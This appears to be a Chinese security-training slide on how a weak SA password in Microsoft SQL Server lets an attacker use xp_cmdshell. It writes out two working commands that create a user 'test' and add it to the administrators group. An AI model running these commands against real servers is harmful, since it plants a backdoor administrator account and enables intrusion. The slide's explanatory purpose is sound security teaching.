

# Mssql数据库

SA弱口令带来的安全隐患

存储过程是存储在SQLServer中的预先写好的SQL语句集合，其中危险性最高的扩展存储过程就是xp_cmdshell了，它可以执行操作系统的任何指令，而SA是Microsoft SQLServer的管理员帐号，拥有最高权限，它可以执行扩展存储过程，并获得返回值，比如执行：
　　exec master..xp_cmdshell 'net user test 1234 /add'和exec master..xp_cmdshell 'net 
　　localgroup administrators test /add'
　　这样对方的系统就被添加了一个用户名为test，密码为1234，有管理员权限的用户